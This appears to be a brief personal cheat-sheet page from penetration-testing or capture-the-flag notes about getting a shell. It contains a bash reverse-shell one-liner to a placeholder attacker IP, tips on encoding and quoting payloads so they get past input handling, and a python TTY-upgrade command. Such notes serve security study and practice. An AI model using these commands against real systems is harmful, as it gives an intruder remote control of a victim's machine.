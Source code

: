 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 







## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

> if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 

> try URL encoding / double URL encoding

> quotations conflict, how to deal with it ?? 

    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'
